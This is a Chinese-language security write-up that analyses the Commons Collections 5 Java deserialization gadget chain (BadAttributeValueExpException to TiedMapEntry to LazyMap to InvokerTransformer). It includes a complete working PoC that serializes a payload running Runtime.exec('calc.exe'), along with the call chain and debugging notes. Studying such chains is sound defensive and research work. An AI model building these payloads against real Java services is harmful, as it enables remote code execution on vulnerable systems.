 ## 简介
CC5 利用的还是CC1的链路，使用LazyMap，只要调用了LazyMap.get()，就可以触发ChainedTransformer，链式调用，那么在CC5中，在哪儿会调用这个get方法呢？
在[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)中，我们知道**动态代理对象调用任何一个方法时会调用handler中的invoke方法**，然而我们知道`sun.reflect.annotation.AnnotationInvocationHandler`，会发现实际上这个类就是一个InvocationHandlerAnnotationInvocationHandler类，如果将这个恶意对象用Proxy进行代理，那么在readObject的时候，只要调用任意方法，就会进入到AnnotationInvocationHandler#invoke方法中。
在CC5中这里引入了新的两个类，分别是**TiedMapEntry，BadAttributeValueExpException**
### TiedMapEntry
可以看到map，和key都是可控的，在调用getValue的时候，就直接调用get方法，实现LazyMap#get()
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_YU4Byvbu.png)
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_KHiUvyfT.png)
那么要在哪里调用这个getvalue函数呢，在`TiedMapEntry`里，我们可以看到该类为其实现了一个`toString()`方法
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_x8EC6yVt.png)
那么找到能调用`TiedMapEntry#toString()`方法就显得至关重要，接下来`BadAttributeValueExpException`类就会带来一片光明
### BadAttributeValueExpException
`BadAttributeValueExpexception` 在readObject的时候，如果能读这个valObj为`TiedMapEntry`的实例，那么是不是就是一条完美的链路？
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_Zc2w9KjJ.png)
在此处，我们可以看到`BadAttributeValueExpexception` 的构造函数只有一个值val，但是类型是Object，那么我们可以按如下构造，当其反序列化的时候，调用readObject()函数的时候，反序列化得到的valObj就是对应的`TiedMapEntry`实例
```java
// 创建一个实例
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
// 反射赋值
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,"TiedMapEntry实例对象");
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;


/*
@params
Test Env
jdk8u181
Commons Collection3.1
 */
public class TestCC5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val,entry);
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("cc5.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(val);

            FileInputStream fileInputStream = new FileInputStream("cc5.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
### 0x1
第一部分为[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)前部分，也可以参考[CC1 分析](https://www.yuque.com/da-labs/secnotes/eru5qp)，这里只要调用了`LazyMap#get`，就会触发`ChainedTransformer.transform()`,进而对transformers链式调用
```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
    };
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
```
### 0x2
在简介中可以看到，`TiedMapEntry`实例化的`entry`需要赋值给`BadAttributeValueExpException@val`,当反序列化的时候，取到对象，则会调用`TiedMapEntry#toString`方法，进而调用`TiedMapEntry#get`方法，其中Map可控，就是反序列化得来的恶意的`TiedMapEntry`实例`lazymap`
```java
TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,entry);
```
对应的调用链为
```
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_AOUvgQqk.png)
## 调试
调试过程和LazyMap是一样的，我们在`LazyMap#get`处`factory.transform(key)`处打下断点来分析
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_WcmBpluF.png)
可以看到利用链路为`BadAttributeValueExpException.readObject()`-> `TiedMapEntry.toString()`-> ` LazyMap.get()`->`ChainedTransformer.transform()`
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_23_XfMSdLRK.png)
这里就是常规链式调用了
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_23_9mfpr51S.png)
> 注：在调试过程中，如果在`LazyMap#get`前的堆栈打上断点，就无法进入LazyMap.get()的if语句

在调试过程中，如果在`LazyMap.get()`之前的堆栈中打下断点，比如`BadAttributeValueExpException.readObject()`、`TiedMapEntry.toString()`、`TiedMapEntry.getValue()`处打上断点，是无法进入 `LazyMap.get()`if 判断语句
在这里可以看到，我圈起来的部分，这里的意思就是已经执行了，因为发生调用了，只不过debug无法进入
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_24_dcBmzp9l.png)
到这里我们直接看`LazyMap.get()`方法，这里断点一定要打在if处，不然是不能进入断点
可以看到，在if处，得到了map参数已经不是空，而是在序列化的时候已经赋的初值。
可以通过比较没有在`LazyMap.get()`前的堆栈下断点的区别
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_24_rQw9ecjh.png)
图1 `LazyMap.get()`堆栈前下断点
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_25_EJBxRNAZ.png)
图2 `LazyMap.get()`堆栈前无断点
这就是为什么我在调试部分我没有在其他函数处打断点，而是直接在`LazyMap#get()`处打断点。



